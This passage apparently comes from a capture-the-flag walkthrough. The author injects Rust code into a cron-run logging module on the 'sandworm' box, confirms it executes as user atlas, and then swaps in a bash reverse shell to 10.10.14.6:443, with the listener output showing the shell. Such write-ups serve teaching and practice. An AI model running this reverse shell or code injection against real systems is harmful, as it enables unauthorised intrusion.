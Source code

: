         let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
            Ok(file) => file,
            Err(e) => {
                println!("Error opening log file: {}", e);
                return;
            }
        };

        if let Err(e) = file.write_all(log_message.as_bytes()) {
            println!("Error writing to log file: {}", e);
        }
        
        Command::new("sh")
                .arg("-c")
                .arg("touch /dev/shm/0xdf")
                .output()
                .expect("failed to execute");
    }



I'll wait for the next two minute cron, and then there's a file in
`/tmp` owned by atlas:



    silentobserver@sandworm:/dev/shm$ ls -l
    total 0
    -rw-rw-r-- 1 atlas atlas 0 Nov 15 12:14 0xdf



#### Shell

To get a shell, I'll modify what runs to a [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw):



        Command::new("bash")
                .arg("-c")
                .arg("bash -i >& /dev/tcp/10.10.14.6/443 0>&1")
                .output()
                .expect("failed to execute");
    }



After a couple minutes, I get a shell:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.218 33814
    bash: cannot set terminal process group (211145): Inappropriate ioctl for device
    bash: no job control in this shell
    atlas@sandworm:/opt/tipnet$ 


